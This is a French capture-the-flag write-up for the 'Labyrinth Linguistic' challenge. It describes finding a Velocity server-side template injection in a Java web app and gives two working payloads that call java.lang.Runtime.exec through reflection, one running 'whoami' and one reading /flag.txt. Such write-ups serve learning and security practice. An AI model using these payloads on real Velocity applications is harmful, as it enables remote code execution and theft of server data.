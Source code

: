 # Labyrinth Linguistic - Nerumir

> Nous nous rendons sur une page web et explorons... Il y a un petit formulaire, je l'ai testé et j'ai trouvé une XSS mais rien d'autre. Nous avons également le code source (`backend`) en fichiers annexes.

- J'ai téléchargé les fichiers du challenge et j'ai lu le code, c'est un serveur web `java`. En lisant le code j'ai découvert `Velocity`. Et j'ai trouvé une faille d'injection de template. Donc code possiblement executable côté serveur donc `RCE`.

- J'ai essayé de voir sur internet les différentes choses possibles, rien ne semblait fonctionner car on avait que la variable `name`.. J'ai trouvé qu'on peut se servir de cette variable pour remonter via des méthodes `java` sur les classes de `java`. J'ai donc pu faire la `RCE`, d'abord pour trouver le flag et ensuite pour afficher son contenu... C'était facile de trouver son emplacement car il est indiqué dans le `Dockerfile` téléchargé.

`Payload` trouvé sur internet : 

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

`Payload` adapté et fonctionnel :

```
#set($str=$name.getClass().forName("java.lang.String"))
#set($chr=$name.getClass().forName("java.lang.Character"))
#set($ex=$name.getClass().forName("java.lang.Runtime").getRuntime().exec("cat /flag.txt"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

J'ai supprimé les retours à la ligne entre chaque caractère via les commandes vim et j'ai submit le flag obtenu.

